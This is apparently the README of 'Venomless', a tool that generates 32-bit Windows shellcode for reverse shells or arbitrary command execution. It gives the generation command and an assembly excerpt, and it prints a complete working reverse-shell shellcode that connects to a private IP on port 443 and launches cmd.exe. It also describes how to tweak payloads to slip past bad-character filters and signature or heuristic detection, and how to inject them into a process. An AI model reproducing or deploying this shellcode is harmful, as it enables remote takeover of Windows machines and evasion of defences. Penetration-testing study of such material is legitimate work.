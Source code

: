 # Introduction

Venomless is a custom 32-bit windows shellcode generator designed to provide either a reverse shell or the execution of a specified command. This is designed to be the starting point for custom windows payloads that the user can alter in order to avoid bad characters and heuristics. Venomless includes the ability to detect bad characters in the resulting shellcode and to output a keystone script with comments where the bad characters exist so that they can be easily altered. 

The generate.py uses the keystone engine and some custom QoL functions in order to create position-independent shellcode. These QoL functions can easily be used to call other windows APIs. formatString automates putting any string onto the stack, loadLibrary loads a library finds a function inside of it and stores it in a specified EBP offset.

# Installation

I highly recommend using a virtual environment.

requires keystone


# Example

The following will create a python script for generating the shellcode for a reverse shell using keystone. The assembly can be customized to avoid bad characters or signatures.

`venomless.py -r -l 192.168.100.1 -p 443 -b 0x00,0x28,0xa0 -f keystone`
 
This will output a "kshellcode.py" keystone script by default which contains comments about which instructions are bad.

e.x:

```asm 
"start:"
"mov ebp, esp               ;"
######## Bad Character located at instruction below ############"
### 81 c4 a0 f6 ff ff : add esp, 0xfffff6A0        ;"
"add esp, 0xfffff6A0        ;"
"find_kernel32:"
"xor ecx, ecx               ;"
"mov esi, fs:[ecx+30h]      ;"
"mov esi, [esi+0Ch]         ;"
"mov esi, [esi+1Ch]         ;"
"next_module:"
```

This bad character can be adjusted by simply changing the value that is subtracted from esp. Once the instruction has been changed, the shellcode can be generated with badchars.py. 

```
Encoded 200 instructions
Looking for bad characters in all shellcode (simple test)
No bad characters found!
size = 398
shellcode = b"\x89\xe5\x81\xc4\xa4\xf6\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\xbf\xe0\xff\xff\xff\xf7\xdf\x01\xf7\x8b\x3f\x8b\x36\x66\x39\x4f\x18\x75\xea\xeb\x06\x5e\x89\x75\x04\xeb\x5c\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\xba\xe0\xff\xff\xff\xf7\xda\x01\xfa\x8b\x02\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x08\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x0c\x68\x72\xfe\xb3\x16\xff\x55\x04\x89\x45\x10\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x33\x32\x2e\x64\x68\x77\x73\x32\x5f\x54\xff\x55\x0c\x89\xc3\x68\xcb\xed\xfc\x3b\xff\x55\x04\x89\x45\x14\x68\xd9\x09\xf5\xad\xff\x55\x04\x89\x45\x18\x68\x0c\xba\x2d\xb3\xff\x55\x04\x89\x45\x1c\x31\xc9\x89\xe0\x66\xb9\x90\x05\x29\xc8\x50\x31\xc0\x66\xb8\x02\x02\x50\xff\x55\x14\x31\xc0\x50\x50\x50\xb0\x06\x50\x2c\x05\x50\x40\x50\xff\x55\x18\x89\xc6\x31\xc0\x50\x50\x68\xc0\xa8\x64\x01\x66\xb8\x01\xbb\xc1\xe0\x10\x66\x83\xc0\x02\x50\x54\x5f\x31\xc0\x50\x50\x50\x50\x04\x10\x50\x57\x56\xff\x55\x1c\x56\x56\x56\x31\xc0\x50\x50\xb0\x7f\xfe\xc0\x31\xc9\xb1\x7f\xfe\xc1\x01\xc8\x50\x31\xc0\x50\x50\x50\x50\x50\x50\x50\x50\x50\x50\xb0\x44\x50\x54\x5f\x31\xc0\xb4\x65\xc1\xe0\x08\x66\xb8\x65\x78\x50\x68\x63\x6d\x64\x2e\x54\x5b\x89\xe0\x31\xc9\x66\xb9\x90\x03\x29\xc8\x50\x57\x31\xc0\x50\x50\x50\x40\x50\x48\x50\x50\x53\x50\xff\x55\x10\x31\xc0\x50\x6a\xff\xff\x55\x08"
```

The testBad function is placed inside of the resulting kshellcode.py and will be run again when using to generate shellcode.


# Usage 

-r, --revshell                      Generate a reverse shell. Requires -l, --lhost and -p, --port arguments.
-c <command>, --cmd                 Creates a payload that uses the WinExec API call to perform a command. 
-o <filename>, --output             Outputs the shellcode to a text file 
-f, --format <format>
        formats:
        assembly              Outputs the assembly
        raw                   Outputs raw shellcode in format "\xXX".
        keystone              Outputs a python script that contains the shellcode and will use the keystone engine to test the payload. Useful for editing out bad bytes. 
        python                Outputs the Shellcode in a python byte array. If -t set, then will generate a python script to test payload.
        csharp                Outputs the shellcode in a csharp byte array. If -t set, then will generate a .cs file to compile to test payload. 
        c                Outputs the shellcode in a c byte array. If -t set, then will generate a .c file to compile to test payload.

-b, --badchars      Will search for bad characters in shellcode and generate a keystone script with all found bad characters commented.
-t, --test                      Generates shellcode in testable format. Default is keystone, which will spawn and inject into a process if executed on windows host. CSharp and Python shellcode runners are also available.

